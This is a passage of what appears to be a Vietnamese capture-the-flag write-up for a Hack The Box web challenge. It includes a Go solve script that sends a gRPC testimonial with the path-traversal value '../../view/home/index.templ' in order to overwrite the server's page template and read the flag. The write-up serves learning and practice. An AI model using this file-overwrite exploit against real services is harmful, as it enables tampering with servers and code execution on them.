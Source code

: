 ```templ 
    }
    return string(out)
}

templ Index() {
    {getFlag()}
}
```
:::

Tạo gRPC client, submit testimonial để ghi đè file có sẵn với pathtraversal, mình dựa vào src gốc để tạo gRPC client 
:::details solve.go
```go 
package main

import (
    "fmt"
    "htbchal/client"
    "log"
    "os"
)

func HandleHomeIndex(customer, testimonial string) {
    if customer != "" && testimonial != "" {
        c, err := client.GetClient()
        if err != nil {
            log.Fatalf("Error getting client: %v", err)
        }

        if err := c.SendTestimonial(customer, testimonial); err != nil {
            log.Fatalf("Error sending testimonial: %v", err)
        }
    }
}

func main() {
    dat, err := os.ReadFile("newhome.templ")
    if err != nil {
        log.Fatalf("Error reading file: %v", err)
    }

    fmt.Println("Submitting testimonial...")
    HandleHomeIndex("../../view/home/index.templ", string(dat))
}

```
:::
Chỉ cần chạy file `solve.go` để submit testimonial lên cho server, sau đó reload lại trang và lấy flag 

